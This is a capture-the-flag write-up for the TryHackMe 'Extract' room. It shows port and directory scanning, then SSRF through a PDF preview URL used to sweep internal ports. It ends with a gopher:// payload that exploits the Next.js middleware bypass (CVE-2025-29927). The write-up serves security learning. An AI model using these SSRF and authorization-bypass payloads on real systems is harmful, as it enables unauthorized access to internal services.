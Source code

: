 # 🕵️ Extract

* Solving [EXTRACT](https://tryhackme.com/room/extract)

## Discovery

1. First of all, Lets Find Open Ports: `nmap -p- -sV $TARGET` 🎯
```
Nmap scan report for $TARGET
Host is up (0.00024s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:79:29:14:25:7F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. By checking Web Port(**80**) with `http://$TARGET`, It seems PDFs  are loaded From: `http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fpdf%2Fdummy.pdf`. Possibly the website is vulnerable to **Path Traversal** or **SSRF** 🔥

![Website View](images/02-web.png)
![Burpsuite View](images/02-ssrf.png)

3. I tested all [PHP Wrappers](https://www.php.net/manual/en/wrappers.php) but nothing found! so I decided to dig in deeper! 😅

4. Next, I tried Finding Hidden Directories Using [RAFT Medium Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt) 🔒
```sh
ffuf -w raft-medium-directories.txt -u "http://$TARGET/FUZZ/"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/FUZZ/
 :: Wordlist         : FUZZ: raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

pdf                     [Status: 200, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10]
management              [Status: 403, Size: 14, Words: 2, Lines: 1]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

5. I could Find **2** valuable Directories, but we don't have direct access to them. 😵
```
management
server-status
```

6. But, PDF Preview link may be able to load other URLs for us! 👍🏻
```
management:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fmanagement%2F

server-status:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fserver-status%2F
```

![Management Page](images/06-management.png)

8. I tried finding more directories with [RAFT Large Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt), But nothing fancy showed up! Only the `localhost` keyword was blocked, so I didn't fall into that **Rabbit Hole** anymore! 🐰

9. A new Idea! Lets Brute-Force **Ports** on host, **Internally**! 🤌
```sh
seq 1 65535 > ports.txt
ffuf -w ports.txt -u "http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ" -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

80                      [Status: 200, Size: 1735, Words: 304, Lines: 65]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1]
```
**Attention**: `-fl 1` didn't work, because response on port `10000` has only `1` line of code.

10. Now, Lets Check Port `10000` on Browser: `http://$TARGET/preview.php?url=http://127.0.0.1:10000` 👀

![API Internal](images/10-api.png)

11. There is a Hidden API Here, But Accessing `http://127.0.0.1:10000/customapi` needs **Authentication** as the Image above says it loud and clear! 👂

## Flag 1 ⛳️

12. By Checking HTML, It seems the website is based on `Next.JS`. First vulnerability to check is [CVE-2025-29927](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass). We can this security issue by sending request below: 🧨
```
GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware
```

13. Everything seems in order until you realize, There is **NO** way to send **HTTP Headers** in ssrf on this website (YET)! 😱

14. Don't worry, By diving in OLD Internet Protocols and PHP Wrappers. I could find `gopher://` which provides the capability of sending requests over tcp, specially `HTTP`. For Learning More About `gopher://`, check links in **References** section. 🔎

15. Lets use [CyberChef](https://gchq.github.io/CyberChef/) for creating `gopher` payloads by keeping conditions below: ✅
- ☑️ Double Encode Payloads
- ☑️ Convert `&` into `%26`
- ☑️ Line Ending should be **CRLF**

```
gopher://127.0.0.1:10000/_GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware

```

![gopher ssrf](images/15-next-js-exploit.png)

```
gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AX-Middleware-Subrequest:%2520middleware%250D%250A
```


